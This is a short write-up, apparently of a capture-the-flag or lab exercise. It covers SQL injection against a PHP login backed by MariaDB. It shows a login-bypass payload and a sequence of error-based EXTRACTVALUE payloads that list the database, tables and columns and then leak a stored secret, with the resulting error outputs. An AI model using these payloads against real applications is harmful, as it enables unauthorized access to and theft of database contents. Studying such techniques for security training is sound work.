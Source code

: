 First, the payload admin'+or+1='1'--+- worked successfully but didn’t lead anywhere meaningful — it bypassed login but didn’t reveal anything useful.

I found that the backend database is MariaDB, which is compatible with the mysqli extension in PHP. So I tried exploiting a SQL injection through error-based techniques supported by MariaDB. Specifically, I used the EXTRACTVALUE() function to trigger an error and leak data.

In the username field, I submitted the following payload:

d' AND EXTRACTVALUE(1337, CONCAT(0x7e, (SELECT value FROM secrets), 0x7e))--+-
This produced the following error response:

XPATH syntax error: '~some_value_here~'
This confirmed that the SQL injection is working, and I could extract data from the database using this method.

Then I started mapping the database. First, I identified the current database name using:

AND EXTRACTVALUE(1337, CONCAT(0x7e, (SELECT database()), 0x7e))--+-
It returned:
~app~

I listed the tables inside the app database using:

AND EXTRACTVALUE(1337, CONCAT(0x7e, (SELECT table_name FROM information_schema.tables WHERE table_schema='app' LIMIT 0,1), 0x7e))--+-
And iterated the LIMIT to get the full list. I found two tables: users and secrets. I ignored the users table and focused on secrets.

To understand the structure of secrets, I extracted the column names using:

AND EXTRACTVALUE(1337, CONCAT(0x7e, (SELECT column_name FROM information_schema.columns WHERE table_name='secrets' AND table_schema='app' LIMIT 0,1), 0x7e))--+-
I discovered that the secrets table has two columns: name and value.

I then checked the number of rows:

AND EXTRACTVALUE(1337, CONCAT(0x7e, (SELECT COUNT(*) FROM secrets), 0x7e))--+-
It returned 1, meaning there is only one row in the secrets table.

Since EXTRACTVALUE() only accepts a single column in its subquery, using SELECT * or trying to extract both name and value together caused an error:

Operand should contain 1 column(s)
So I focused on extracting just the value column:

AND EXTRACTVALUE(1337, CONCAT(0x7e, (SELECT value FROM secrets LIMIT 0,1), 0x7e))--+-
This gave the secret value successfully.

